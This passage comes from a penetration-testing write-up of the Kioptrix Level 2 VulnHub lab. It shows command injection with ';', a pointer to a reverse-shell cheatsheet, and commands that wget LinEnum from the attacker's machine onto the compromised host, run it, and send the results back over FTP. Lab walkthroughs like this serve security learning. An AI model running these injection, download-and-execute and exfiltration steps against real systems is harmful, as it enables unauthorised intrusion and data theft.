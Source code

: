 Well that was easy... by simply prepending `;` to our input, we can execute uer-defined code. Knowing this, it's trivial to get a reverse shell using a [cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

![Getting our reverse shell](/assets/img/VulnHub/Kioptrix1.1_7.PNG)

# Privilege Escalation

Time to enumerate. Let's start by executing [LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) to gather information about the host.

I'll download the script and host it on a local HTTP server using Python:

`sudo python -m SimpleHTTPServer 80`

Then on my compromised host:

```bash
cd /tmp
mkdir tmppp
cd tmppp
wget http://<my IP>/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh >> lol.txt
```

The output's a little messy, so let's push `lol.txt` (the results) back to my Kali box using FTP. 

{: .box-warning}
**Note:** if you're on a busy network with other people (i.e. HackTheBox networks) you'll want to utilize an alternate method to transfer files. Since this is a home lab FTP is suitable.

#### Pushing the LinEnum output using FTP:

```bash
ftp <my IP>
Name: ...
Password: ...
put lol.txt
```

After reviewing, the first thing I notice is the Kernel version:

`Linux kioptrix.level2 2.6.9-55.EL`

Which is really old. Also it looks like we have `gcc` installed on the box.
